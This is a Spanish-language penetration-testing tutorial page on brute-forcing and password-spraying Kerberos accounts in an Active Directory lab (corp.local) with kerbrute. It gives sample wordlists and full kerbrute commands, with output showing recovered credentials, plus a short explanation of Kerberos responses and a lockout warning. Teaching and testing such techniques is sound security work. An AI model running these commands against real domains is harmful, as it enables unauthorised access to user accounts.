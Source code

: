 ```yaml
---
icon: key-skeleton-left-right
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Fuerza bruta con Kerberos

En esta tecnica lo que vamos a ver es a como identificar la contraseña de un usuario que hayamos encontrado, para realizarle fuerza bruta y saber su contraseña.

Hay que decir que esta tecnica es muy intrusiva y que puede ser detectada por herramientas de seguridad, tambien hay que tener cuidado ya que si algun usuario de los que estamos probando fuerza bruta tiene un limite configurado a nivel de dominio de intentos de contraseñas podemos bloquear a dicho usuario, por lo que hay que tener cuidado.

Para realizar esto haremos lo siguiente:

> passwords.txt

```
Passw0rd
Passw0rd1
Passw0rd2
Passw0rd3
Passw0rd4
Passw0rd5
```

Una vez que hayamos creado un diccionario de contraseñas o lo hayamos extraido de algun sitio en concreto, haremos lo siguiente:

```shell
kerbrute bruteuser -d corp.local --dc 192.168.5.5 passwords.txt empleado1
```

Info:

```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 04:50:52 >  Using KDC(s):
2025/01/14 04:50:52 >   192.168.5.5:88

2025/01/14 04:50:52 >  [+] VALID LOGIN:  empleado1@corp.local:Passw0rd2
2025/01/14 04:50:52 >  Done! Tested 6 logins (1 successes) in 0.183 seconds
```

Vemos que nos coincidio con una contraseña de la lista que seria `Passw0rd2`.

A nivel de red haria lo siguiente, la herramienta envia paquetes con el nombre de usuario, el timestamp y la contraseña de forma cifrada, para ver que respuestas le da `kerberos` si le da un `225` es que esta fallando por que no es la contraseña correcta, pero si por ejemplo en vez de recibir un error, recibe un `AS-REP` que seria un `Replay` de que le contesta significa que la autenticacion fue exitosa, por lo que sabremos que sera esa la contraseña.

Tambien se puede probar con el siguiente formato de contarseñas:

> user\_pass.txt

```
empleado1:passw0rd
empleado2:Passw0rd3
empleado4:Passw0rd4
```

La lista tiene que ser separada con `:` de forma que sea algo asi `username:password` y ejecutar lo siguiente:

```shell
kerbrute bruteforce -d corp.local --dc 192.168.5.5 user_pass.txt
```

Info:

```__
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 05:00:44 >  Using KDC(s):
2025/01/14 05:00:44 >   192.168.5.5:88

2025/01/14 05:00:44 >  [+] VALID LOGIN:  empleado2@corp.local:Passw0rd3
2025/01/14 05:00:44 >  Done! Tested 3 logins (1 successes) in 0.009 seconds
```

Y vemos que coincidio con unas credenciales.

Ahora si queremos probar hacer un `PasswordSpry` osea probar varios nombres de usuario de dominio, frente a una unica contraseña, podremos hacerlo de la siguiente forma:

Utilizaremos el `users.txt` que creamos anteriormente y pondremos lo siguiente:

```shell
kerbrute passwordspray -d corp.local --dc 192.168.5.5 users.txt Passw0rd2
```

Info:

```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 05:03:57 >  Using KDC(s):
2025/01/14 05:03:57 >   192.168.5.5:88

2025/01/14 05:03:57 >  [+] VALID LOGIN:  empleado1@corp.local:Passw0rd2
2025/01/14 05:03:57 >  Done! Tested 7 logins (1 successes) in 0.014 seconds
```

Y vemos que nos saca unas credenciales.
